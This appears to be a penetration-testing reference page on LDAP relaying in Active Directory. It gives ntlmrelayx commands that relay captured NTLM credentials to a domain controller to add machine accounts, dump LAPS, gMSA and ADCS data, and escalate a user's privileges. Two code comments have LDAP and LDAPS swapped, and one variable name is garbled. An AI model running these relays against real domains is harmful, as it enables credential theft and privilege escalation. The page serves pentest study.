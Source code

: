 # LDAP Relaying

LDAP Relaying attacks can make use of NTLM authentication. Similar to [SMB Relaying](smb-relaying.md), an attacker who captures credentials via [MITM6](../networks/ipv6.md) or Responder can then relay them to a domain controller, targeting LDAP.&#x20;

It should be noted that the following two defaults need to be set in order for this to be exploited:

* [LDAP Signing Disabled](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-ldap-signing-in-windows-server)
* [LDAP Channel Binding Disabled](https://support.microsoft.com/en-us/topic/use-the-ldapenforcechannelbinding-registry-entry-to-make-ldap-authentication-over-ssl-tls-more-secure-e9ecfa27-5e57-8519-6ba3-d2c06b21812e)

### Enumeration

#### LDAPRelayScan

[LDAPRelayScan](https://github.com/zyn3rgy/LdapRelayScan) can be utilized to identify whether LDAP Signing and/or LDAP Channel Binding are enabled or not.

```bash
# Generic usage of LdapRelayScan.py  
LdapRelayScan.py -u $user -p $password -dc-ip $dcipaddress -method BOTH
```

### Exploitation

{% tabs %}
{% tab title="Computer Creation" %}
Create a new domain computer by abusing the default attribute `ms-DS-MachineAccountQuota` which is by default set to 10, allowing all authenticated users to add up to 10 computers to the domain.&#x20;



This account can then be utilized to perform authenticated attacks against the domain such as Kerberoasting.&#x20;

```bash
# Relay to LDAP
ntlmrelayx.py -t ldaps://$dcip --add-computer $computername

# Relay to LDAPS
ntlmrelayx.py -t ldap://$dcip --add-computer $computername
```
{% endtab %}

{% tab title="Dump" %}
Relay authentication to LDAP and obtain a significant amount of information about the domain such as ADCS configuration, LAPS, groups, users, etc.&#x20;

```bash
ntlmrelayx -t "ldap://$dcip" --dump-adcs --dump-laps --dump-gmsa
```
{% endtab %}

{% tab title="Escalate" %}
Relay captured credentials to LDAPS and escalate the privileges of a specified domain user.&#x20;

```bash
# Relay authentication over LDAPS and attempt to escalate privileges
ntlmrelayx.py -t ldaps://$dcip --escalate-user $usernameLAReferences
```
{% endtab %}
{% endtabs %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" %}

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/ldap-relay" %}

{% embed url="https://www.thehacker.recipes/ad/movement/ntlm/relay" %}

{% embed url="https://www.praetorian.com/blog/obtaining-laps-passwords-through-ldap-relaying-attacks/" %}
